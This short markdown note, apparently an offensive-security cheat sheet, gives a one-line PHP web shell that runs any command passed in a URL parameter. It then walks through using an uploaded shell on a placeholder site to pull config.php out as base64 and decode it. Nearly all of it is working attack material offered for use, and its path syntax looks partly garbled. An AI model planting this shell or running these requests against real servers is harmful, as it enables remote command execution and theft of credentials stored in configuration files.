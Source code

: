 # PHP Web Shell

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/shell.php)

```
<?php 
echo "Shell";system($_GET['cmd']); 
?>
```

## Retrieving PHP file contents via a *PHP web shell* interface.

[Reading PHP Source Code Through A Browser](https://medium.com/@cybertest72/reading-php-source-code-through-a-browser-e08a392d22fc)

```
base64 < ..$u
```

*s.php file is PHP Web Shell*

https://vulnerable.site/uploads/s.php?cmd=base64%20%3C%20..$u/config.php

Above request is reading *config.php* from the *vulnerable.site*.

Response will be getting "encoded Base64 format data".

![image](https://github.com/user-attachments/assets/62041500-35d8-458a-a780-0e61a485df97)

Then, it can be decoded using base64 decoder such as [Base64 Decode and Encode - Online](https://www.base64decode.org/).

![image](https://github.com/user-attachments/assets/b2388a42-4881-4a11-8c5a-3b05a76c6293)
